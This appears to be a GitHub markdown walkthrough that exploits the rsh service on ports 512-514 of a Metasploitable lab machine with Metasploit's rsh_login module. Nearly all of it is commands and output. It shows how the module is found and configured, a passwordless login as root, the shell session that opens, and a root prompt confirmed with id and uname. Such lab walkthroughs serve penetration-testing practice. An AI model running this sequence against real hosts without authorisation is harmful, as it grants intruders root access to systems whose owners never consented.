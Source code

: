 ## 512/513/514 rsh_login Exploitation
<pre>514/tcp  open  tcpwrapped</pre>

### RSH_Login
<pre>msf6 > search rsh_login</pre>

<pre>Matching Modules
================

   #  Name                                   Disclosure Date  Rank    Check  Description
   -  ----                                   ---------------  ----    -----  -----------
   0  auxiliary/scanner/rservices/rsh_login  .                normal  No     rsh Authentication Scanner


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/rservices/rsh_login</pre>

<pre>msf6 > use 0</pre>

<pre>msf6 auxiliary(scanner/rservices/rsh_login) > show options</pre> 

<pre>Module options (auxiliary/scanner/rservices/rsh_login):

   Name              Current Setting                                                 Required  Description
   ----              ---------------                                                 --------  -----------
   ANONYMOUS_LOGIN   false                                                           yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   false                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                               yes       How fast to bruteforce, from 0 to 5
   CreateSession     true                                                            no        Create a new session for every successful login
   DB_ALL_CREDS      false                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                           no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                            no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   ENABLE_STDERR     false                                                           yes       Enables connecting the stderr port
   FROMUSER                                                                          no        The username to login from
   FROMUSER_FILE     /usr/share/metasploit-framework/data/wordlists/rservices_from_  no        File containing from usernames, one per line
                     users.txt
   PASSWORD                                                                          no        A specific password to authenticate with
   PASS_FILE                                                                         no        File containing passwords, one per line
   RHOSTS                                                                            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             514                                                             yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                                           yes       Stop guessing when a credential works for a host
   THREADS           1                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                          no        A specific username to authenticate as
   USERPASS_FILE                                                                     no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                           no        Try the username as the password for all users
   USER_FILE                                                                         no        File containing usernames, one per line
   VERBOSE           true                                                            yes       Whether to print output for all attempts</pre>


<pre>msf6 auxiliary(scanner/rservices/rsh_login) > set rhosts A.B.C.D</pre>

<pre>msf6 auxiliary(scanner/rservices/rsh_login) > set username root</pre>

<pre>msf6 auxiliary(scanner/rservices/rsh_login) > run</pre>

<pre>[*] A.B.C.D:514   - A.B.C.D:514 - Starting rsh sweep
[*] A.B.C.D:514   - A.B.C.D:514 - Attempting rsh with username 'root' from 'root'
[+] A.B.C.D:514   - A.B.C.D:514, rsh 'root' from 'root' with no password.
[!] A.B.C.D:514   - No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (0.0.0.0:1023 ->  A.B.C.D:514 ) at 2025-02-05 02:33:42 +0530
[*] A.B.C.D:514   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed</pre>

### Exploit complte add get the active session 
<pre>msf6 auxiliary(scanner/rservices/rsh_login) > sessions </pre>

<pre>Active sessions
===============

  Id  Name  Type   Information                               Connection
  --  ----  ----   -----------                               ----------
  1         shell  RSH root from root ( A.B.C.D:514)         0.0.0.0:1023 ->  A.B.C.D:514 ( A.B.C.D)</pre>

<pre>msf6 auxiliary(scanner/rservices/rsh_login) > sessions 1</pre>

## Get the root shell
<pre>[*] Starting interaction with 1...

Shell Banner:
sh: no job control in this shell
sh-3.2#
-----
          
sh-3.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-3.2# uname -r
2.6.24-16-server
sh-3.2# uname
Linux
sh-3.2# uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
sh-3.2# 
</pre>

